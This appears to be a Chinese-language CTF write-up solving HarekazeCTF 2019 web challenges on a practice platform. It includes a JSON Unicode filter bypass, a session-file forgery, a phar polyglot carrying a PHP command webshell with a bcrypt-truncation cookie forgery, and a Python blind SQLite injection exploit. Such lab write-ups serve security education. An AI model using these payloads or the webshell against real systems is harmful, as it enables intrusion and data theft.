

复现环境：https://buuoj.cn
encode_and_encode 题目源码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 <?php error_reporting(0 ); if (isset ($_GET['source' ])) { show_source(__FILE__ ); exit (); } function is_valid ($str) $banword = [ '\.\.' , '(php|file|glob|data|tp|zip|zlib|phar):' , 'flag' ]; $regexp = '/' . implode('|' , $banword) . '/i' ; if (preg_match($regexp, $str)) { return false ; } return true ; } $body = file_get_contents('php://input' ); $json = json_decode($body, true ); if (is_valid($body) && isset ($json) && isset ($json['page' ])) { $page = $json['page' ]; $content = file_get_contents($page); if (!$content || !is_valid($content)) { $content = "<p>not found</p>\n" ; } } else { $content = '<p>invalid request</p>' ; } $content = preg_replace('/HarekazeCTF\{.+\}/i' , 'HarekazeCTF{<censored>}' , $content); echo json_encode(['content' => $content]);
代码有两处过滤点，过滤的函数is_valid ，将关键字.. ，flag ，和一些协议都做了黑名单检测
第一处过滤是检测通过file_get_contents 函数读取php://input 的内容
第二处过滤是检测通过file_get_contents 函数读取前一处读取的内容进行json_decode 函数处理后的page 字段的内容
我们的最终目的肯定是要读取/flag ，但是怎么绕过黑名单的检测呢，关键就在于json_decode 这个函数，它可以接收Unicode 编码后的字符，也就是说，假设，我们把字符a 进行Unicode编码，即\u0061
测试代码：
1 2 3 4 <?php $body = '{"page":"/fl\u0061g"}' ; $a = json_decode($body,true ); var_dump($a['page' ]);
可见，Unicode编码后的a也被正常解析成了字符a
那么，我们就可以利用这一个特性，来首先绕过第一层的黑名单检测，payload：
这里返回了not found 而不是invalid request ，说明第一层过滤是通过了的，那么考虑第二层过滤：
1 2 3 if (!$content || !is_valid($content)) { $content = "<p>not found</p>\n" ; }
为什么返回的是not found ，我们确定了/flag 文件是存在的，那么就是/flag 文件中的内容包含了黑名单中的关键字flag ，所以我们可以使用伪协议对其内容进行一次base64加密，同样的道理，对php: 其中的字符进行Unicode 编码即可
最终的payload：
1 {"page":"p\u0068p://filter/convert.base64-encode/resource=/fl\u0061g"}
最后base64解码就得到flag
Easy Notes 下载源码后审计
先看看得到flag.php中得到flag的条件：
flag是在环境变量中，获得的条件是符合is_admin 函数：
要满足条件：$_SESSION[‘admin’] === true
而通篇审计会发现，没有正常可以设置$_SESSION[‘admin’] 的地方
值得注意的点只有两处：
（1）session存储路径被设置为了：/var/www/tmp
（2）export.php 文件中存在通过ZipArchive 类写文件的操作：
我们知道ZipArchive类不仅仅能写zip文件，同样能写其他后缀名的文件，并且，这里写入的文件名参数$path ，我们是可以控制的
所以思路就是通过ZipArchive 来写Session文件，来改变$_SESSION[‘admin’] 的值
如果我们传入type 为点. ，拼接后的filename 末尾就为.. ，经过str_replace 替换为空，就变成无后缀文件，再根据Session文件的命名规律，开头为sess_
最后就剩下文件内容了，因为session存储形式session.serialize_handler 默认为php，当 session.serialize_handler=php 时，session文件内容为： name|s:7:"mochazz";
综上：
（1）登陆用户名：sess_
（2）添加title：|b:1;admin|b:1;
（3）访问：export.php?type=. 写入session文件
根据响应包返回的文件名：sess_-eee4a062946c8f83 ，判断此文件的session_id为：-eee4a062946c8f83
（4）将session_id修改为-eee4a062946c8f83 访问flag.php
获得flag
Avatar Uploader 1 打开靶机，登陆任意用户名后是一个上传页面
要求只能上传PNG格式的图片，图片大小小于256KB，且像素小于256px*256px
先试着正常上传一个符合要求的PNG图片
给了图片路径，之后，修改文件名后缀和Content-type，发现都能上传成功，并且返回路径中的文件名都是随机数.png
猜测后台是根据getimagesize 函数来判断文件像素和类型
题目还给了源码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 <?php $finfo = finfo_open(FILEINFO_MIME_TYPE); $type = finfo_file($finfo, $_FILES['file' ]['tmp_name' ]); finfo_close($finfo); if (!in_array($type, ['image/png' ])) { error('Uploaded file is not PNG format.' ); } $size = getimagesize($_FILES['file' ]['tmp_name' ]); if ($size[0 ] > 256 || $size[1 ] > 256 ) { error('Uploaded image is too large.' ); } if ($size[2 ] !== IMAGETYPE_PNG) { error('What happened...? OK, the flag for part 1 is: <code>' . getenv('FLAG1' ) . '</code>' ); } ?>
代码大致意思是：需要我们想办法上传一个PNG图片，使得图片经过finfo_file 函数判断未png格式而经过getimagesize 函数判断不为png格式
这就需要利用到一个trick：finfo_file 函数可以识别png图片十六进制下的第一行，即：
而getimagesize 函数不行
测试代码如下：
1 2 3 4 5 6 7 8 9 10 11 12 <?php $finfo = finfo_open(FILEINFO_MIME_TYPE); $type = finfo_file($finfo,$_FILES['file' ]['tmp_name' ]); finfo_close($finfo); var_dump($type); $size = getimagesize($_FILES['file' ]['tmp_name' ]); var_dump($size); var_dump($size[2 ] == IMAGETYPE_PNG); ?>
上传如上只有一行十六进制的图片头后，返回信息：
可以发现，此时finfo_file 函数能识别出为png ，而getimagesize 不行，返回了false
最后上传该图片到题目，即可得到flag
Avatar Uploader 2 这题源码跟上一题一样，需要我们找到第二个flag，源码中是没有给出直接的获取途径，需要我们自己审计找到漏洞
漏洞触发点：index.php第25行：
1 <?php include ($session->get('theme' , 'light' ) . '.css' ); ?>
存在LFI
比较特别的是，本题的session处理机制是自写的，源码在/lib/session.php
首先是魔术方法__construct：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 public function __construct ($cookieName = 'session' , $secret = 'secret' ) $this ->data = []; $this ->secret = $secret; if (array_key_exists($cookieName, $_COOKIE)) { try { list ($data, $signature) = explode('.' , $_COOKIE[$cookieName]); $data = urlsafe_base64_decode($data); $signature = urlsafe_base64_decode($signature); if ($this ->verify($data, $signature)) { $this ->data = json_decode($data, true ); } } catch (Exception $e) {} } $this ->cookieName = $cookieName; }
把cookie中的session字段值取出，并以点号.为分隔符分割出data 和signature 部分，对应数据 部分和签名 部分
然后对data 和signature 进行verify验证：
1 2 3 private function verify ($string, $signature) return password_verify($this ->secret . $string, $signature); }
认证成功，就把data 进行json_decode 解码，获取data数据
至于：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 public function isset ($key) return array_key_exists($key, $this ->data); } public function get ($key, $defaultValue = null) if (!$this ->isset($key)) { return $defaultValue; } return $this ->data[$key]; } public function set ($key, $value) $this ->data[$key] = $value; } public function unset ($key) unset ($this ->data[$key]); }
isset 中判断参数 $key 是否在 data 中，get 中返回 data 中 key 为参数 $key 的数据，set 中将 data 中 key 为参数 $key 的数据设置为参数 $value，unset 中删除 data 中 key 为参数 $key 的数据
比较重要的是save和sign函数：
1 2 3 4 5 6 7 8 public function save () $json = json_encode($this ->data); $value = urlsafe_base64_encode($json) . '.' . urlsafe_base64_encode($this ->sign($json)); setcookie($this ->cookieName, $value); } private function sign ($string) return password_hash($this ->secret . $string, PASSWORD_BCRYPT); }
sign 函数用来产生签名，和data数据段通过点号.连接后base64加密最后生成cookie
了解了session的处理机制，我们再回到index.php 的漏洞触发点：
1 <?php include ($session->get('theme' , 'light' ) . '.css' ); ?>
前面分析我们已经知道get 方法是取出session中data 的theme 字段，并且，我们也了解了session的产生是通过save 函数，因此我们就可以考虑去修改session字段，进而触发LFI
但是首先，我们得通过verify 的签名校验，这就需要利用sign 函数中使用的password_hash 函数的特点：它的第一个参数不能超过 72 个字符
也就是说，如果我们传入的第一个参数，即$this->secret . $string，$string对应data 的json_encode 部分，超过72个字符，那么72个以后的字符随意添加，产生的签名都是相同的，我们就可以利用这个特点来绕过verify的签名校验。所以我们只要找到一个点触发save 函数，并且设置的cookie的data字段超过72个字符就行了
在upload.php的error 方法，就符合我们的要求：
1 2 3 if (!file_exists($_FILES['file' ]['tmp_name' ]) || !is_uploaded_file($_FILES['file' ]['tmp_name' ])) { error('No file was uploaded.' ); }
utils.php：
1 2 3 4 5 6 7 8 9 10 11 12 13 function flash ($type, $message) global $session; $session->set('flash' , [ 'type' => $type, 'message' => $message ]); $session->save(); } function error ($message, $path = '/' ) flash('error' , $message); redirect($path); }
最后就是思考，如何利用LFI，他包含的文件末尾后缀为.css，这就想到了phar 协议，我们在phar文件中，复合一个带有马的exp.css 文件，然后改变theme 字段值为：phar://uploads/xxxxxx.png/exp，成功包含后就可以实现rce了
（1）编写phar文件POC：
1 2 3 4 5 6 7 <?php $png_header = hex2bin('89504e470d0a1a0a0000000d49484452000000400000004000' ); $phar = new Phar('exp.phar' ); $phar->startBuffering(); $phar->addFromString('exp.css' , '<?php system($_GET["cmd"]); ?>' ); $phar->setStub($png_header . '<?php __HALT_COMPILER(); ?>' ); $phar->stopBuffering();
这里要注意设置phar的头部为png格式，且要符合要求（小于256256），在其中复合* exp.css**的一句话马
（2）登陆一个账号后，直接上传POC生成的exp.phar
（3）再次访问upload.php，因为没有上传文件，触发了错误信息，产生了一个包含错误信息的cookie：
此时可以本地解码一下看看data字段：
很明显已经超过了72个字符，我们只需要在末尾部分添加上theme 字段即可
（4）编写exp：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 <?php function urlsafe_base64_encode ($data) return rtrim(str_replace(['+' , '/' ], ['-' , '_' ], base64_encode($data)), '=' ); } function urlsafe_base64_decode ($data) return base64_decode(str_replace(['-' , '_' ], ['+' , '/' ], $data) . str_repeat('=' , 3 - (3 + strlen($data)) % 4 )); } $cookie = "eyJuYW1lIjoic29tbnVzIiwiYXZhdGFyIjoiYWZkOTAyYTgucG5nIiwiZmxhc2giOnsidHlwZSI6ImVycm9yIiwibWVzc2FnZSI6Ik5vIGZpbGUgd2FzIHVwbG9hZGVkLiJ9fQ.JDJ5JDEwJFRIOVphUElWTk5Hb0RBSFlSd1BFa3UyRFJBMmU0STZmZE9rNFlReDcvY0xYZTRrR1ZxbjVx" ; list ($data, $signature) = explode('.' , $cookie);$data = urlsafe_base64_decode($data); var_dump($data); $json = json_decode($data,true ); var_dump($json['avatar' ]); $avatar = $json['avatar' ]; $data = str_replace('}}' ,'},"theme":"phar://uploads/' .$avatar.'/exp"}' ,$data); var_dump($data); $data = urlsafe_base64_encode($data); $cookie = $data . '.' . $signature; var_dump($cookie);
运行后生成payload：
1 eyJuYW1lIjoic29tbnVzIiwiYXZhdGFyIjoiYWZkOTAyYTgucG5nIiwiZmxhc2giOnsidHlwZSI6ImVycm9yIiwibWVzc2FnZSI6Ik5vIGZpbGUgd2FzIHVwbG9hZGVkLiJ9LCJ0aGVtZSI6InBoYXI6Ly91cGxvYWRzL2FmZDkwMmE4LnBuZy9leHAifQ.JDJ5JDEwJFRIOVphUElWTk5Hb0RBSFlSd1BFa3UyRFJBMmU0STZmZE9rNFlReDcvY0xYZTRrR1ZxbjVx
（5）最后再以生成的payload作为session去访问index.php ，触发LFI，执行命令：
（6）读取根目录下的flag文件：
Sqlite Voting 题目源码：
vote.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 <?php error_reporting(0 ); if (isset ($_GET['source' ])) { show_source(__FILE__ ); exit (); } function is_valid ($str) $banword = [ "[\"%'*+\\/<=>\\\\_`~-]" , '\s' , 'blob' , 'load_extension' , 'char' , 'unicode' , '(in|sub)str' , '[lr]trim' , 'like' , 'glob' , 'match' , 'regexp' , 'in' , 'limit' , 'order' , 'union' , 'join' ]; $regexp = '/' . implode('|' , $banword) . '/i' ; if (preg_match($regexp, $str)) { return false ; } return true ; } header("Content-Type: text/json; charset=utf-8" ); if (!isset ($_POST['id' ]) || empty ($_POST['id' ])) { die (json_encode(['error' => 'You must specify vote id' ])); } $id = $_POST['id' ]; if (!is_valid($id)) { die (json_encode(['error' => 'Vote id contains dangerous chars' ])); } $pdo = new PDO('sqlite:../db/vote.db' ); $res = $pdo->query("UPDATE vote SET count = count + 1 WHERE id = ${id}" ); if ($res === false ) { die (json_encode(['error' => 'An error occurred while updating database' ])); } echo json_encode([ 'message' => 'Thank you for your vote! The result will be published after the CTF finished.' ]);
schema.sql ：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 DROP TABLE IF EXISTS `vote` ;CREATE TABLE `vote` ( `id` INTEGER PRIMARY KEY AUTOINCREMENT, `name` TEXT NOT NULL , `count` INTEGER ); INSERT INTO `vote` (`name` , `count` ) VALUES ('dog' , 0 ), ('cat' , 0 ), ('zebra' , 0 ), ('koala' , 0 ); DROP TABLE IF EXISTS `flag` ;CREATE TABLE `flag` ( `flag` TEXT NOT NULL ); INSERT INTO `flag` VALUES ('HarekazeCTF{<redacted>}' );
一道update 的sqlite 注入题，看到update 很自然想起了盲注 ，但是，注意到关键代码：
1 2 3 4 5 6 if ($res === false ) { die (json_encode(['error' => 'An error occurred while updating database' ])); } echo json_encode([ 'message' => 'Thank you for your vote! The result will be published after the CTF finished.' ]);
当查询结果为false（即产生语法错误 时，返回信息An error occurred while updating database ）
然而不管有没有更新成功，都会返回同样的信息
这样的代码，很显然就告诉了我们要用一种基于语法错误的盲注
然后整理一下过滤点：
1 ["%'*+\/<=>\\_`~-]|\s|blob|load_extension|char|unicode|(in|sub)str|[lr]trim|like|glob|match|regexp|in|limit|order|union|join
过滤了空格\s ，+ ，/ ，***， =， >， <**等关键字
（1）寻找报错点 既然是基于语法报错，我们首先就需要找到能引起报错的语句，之前国赛有个pow(9999,100)，但是这里是sqlite3 数据库，不支持pow函数。除此之外还有个整数溢出 引起的报错：abs(-9223372036854775808)
不过这里因为减号-被过滤了，因此转换为十六进制0x8000000000000000
（2）构造条件语句 报错信息有了，接下来就是构造条件语句 ，sqlite不支持if 语句，但是支持case when语句
于是我们可以构造：
1 abs(case(判断语句)when(0)then(0)else(0x8000000000000000)end)

下面就是构造判断语句 了，因为判断符号（= < > !）都遭到了过滤，而且引号'和"过滤，substr 字符串截取函数过滤，导致我们无法用字符做判断语句。既然无法截取字符，那我们可以考虑使用 hex 进行字符的判断，这样的好处是将所有的的字符串组合用有限的 16 个字符表示
（3）盲注长度 先考虑对flag 16进制长度的判断，长度为整数，假设是18 ，那么转换为二进制后就是10010 ，然后与一个2的n次方数1<<n分别做按位与 &运算
可以发现，当18 对应二进制位上的数为1时，和1<<n进行按位与运算后就能得到1<<n
我们就可以利用这个条件构造如下的条件语句：
1 length(hex((select(flag)from(flag))))&(1<<n)
拼接到case 后构成payload：
1 abs(case(length(hex((select(flag)from(flag))))&(1<<n))when(0)then(0)else(0x8000000000000000)end)
盲注长度的exp：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 import requestsurl = "http://416bab78-3351-42cb-b5d7-53579e8dbea4.node3.buuoj.cn/vote.php" length = 0 for i in range(16 ): payload = "abs(case(length(hex((select(flag)from(flag))))&%d)when(0)then(0)else(0x8000000000000000)end)" %(1 <<i) data = { "id" :payload } r = requests.post(url,data=data) print r.text if "An error" in r.text: length = length | (1 <<i) print length
运行后得到flag的十六进制长度为：84
（4）盲注flag 为什么得到长度呢，我们目前已经被限制了截取字符串的操作，所以能操作的只有整串的十六进制表示的flag，对整串字符串的利用函数，有个replace，我们知道replace函数可以对字符串里的某些字符进行替换，既然替换了，长度就会发生变化，那么，我们就可以利用这个条件进行盲注
例如我们已知的flag开头为flag{，转化为十六进制为：666C61677B
那么，现在我们要开始对flag{后面的十六进制字符进行逐个盲注，先假设为7，我们对其进行replace函数的替换：
可以看到，当我们正确注出flag{后的第一个字符时，经过replace函数的替换后，长度就比原来减少了
再用一次replace替换长度数，如果长度未发生变化，则返回原来的长度，反之则返回空
根据上面分析构造如下条件语句：
1 replace(length(replace(hex((select(flag)from(flag))),替换的字符串,'')),84,'')
但是，因为引号被过滤，我们得想其他方法构造空字符 和字符串
（1）空字符：trim(0,0)
（2）字符串：6|6
（3）ABCDEF构造：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 # hex(b'zebra') = 7A65627261 # 除去 12567 就是 A ，其余同理 A = 'trim(hex((select(name)from(vote)where(case(id)when(3)then(1)end))),12567)' C = 'trim(hex(typeof(.1)),12567)' D = 'trim(hex(0xffffffffffffffff),123)' E = 'trim(hex(0.1),1230)' F = 'trim(hex((select(name)from(vote)where(case(id)when(1)then(1)end))),467)' # hex(b'koala') = 6B6F616C61 # 除去 16CF 就是 B B = f'trim(hex((select(name)from(vote)where(case(id)when(4)then(1)end))),16||{C}||{F})'
最后的payload：
1 abs(case(replace(length(replace(hex((select(flag)from(flag))),替换的字符串,trim(0,0))),length,trim(0,0)))when(trim(0,0))then(0)else(0x8000000000000000)end)
最后的exp：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 import requestsurl = "http://1968f105-b7cf-4ce2-8285-b717c3f8af04.node3.buuoj.cn/vote.php" length = 0 for i in range(16 ): payload = "abs(case(length(hex((select(flag)from(flag))))&%d)when(0)then(0)else(0x8000000000000000)end)" %(1 <<i) data = { "id" :payload } r = requests.post(url,data=data) print r.text if "An error" in r.text: length = length | (1 <<i) print lengthlength = 84 table = {} table['A' ] = 'trim(hex((select(name)from(vote)where(case(id)when(3)then(1)end))),12567)' table['C' ] = 'trim(hex(typeof(.1)),12567)' table['D' ] = 'trim(hex(0xffffffffffffffff),123)' table['E' ] = 'trim(hex(0.1),1230)' table['F' ] = 'trim(hex((select(name)from(vote)where(case(id)when(1)then(1)end))),467)' table['B' ] = 'trim(hex((select(name)from(vote)where(case(id)when(4)then(1)end))),16||' + table["C" ] + '||' + table["F" ] +')' res = 'flag{' .encode('hex' ).upper() flag = "" for i in res: if i in "0123456789" : flag = flag + i + "||" else : flag = flag + table[i] + "||" flag = flag[:-2 ] for i in range(len(res),length): for x in '0123456789ABCDEF' : if x in '0123456789' : t = flag + "||" + x else : t = flag + "||" + table[x] payload = "abs(case(replace(length(replace(hex((select(flag)from(flag)))," +t+",trim(0,0))),84,trim(0,0)))when(trim(0,0))then(0)else(0x8000000000000000)end)" data = { "id" :payload } r = requests.post(url,data=data) print r.text if "An error" in r.text: res = res + x print res flag = t print resprint res.decode('hex' )
总结思路：
过滤了引号，字符串截取函数，比较符号，空格。采用十六进制表示flag，将字符范围缩小至16个字符：0123456789ABCDEF
（1）基于语法报错 的sqlite注入：使用abs(-9223372036854775808)产生语法报错
（2）构造判断条件语句：abs(case(条件语句)when(0)then(0)else(0x8000000000000000)end)
（3）使用replace函数进行flag逐一替换，替换成功，则长度变化，替换不成功，则长度不变。根据这个来产生条件语句。
（4）使用位与&运算来得到十六进制的flag长度，当长度和一个2的n次方数1<<n位与后如果结果为1，代表长度二进制的对应位为1，反之为0
参考 https://xz.aliyun.com/t/6628
https://st98.github.io/diary/posts/2019-05-21-harekaze-ctf-2019.html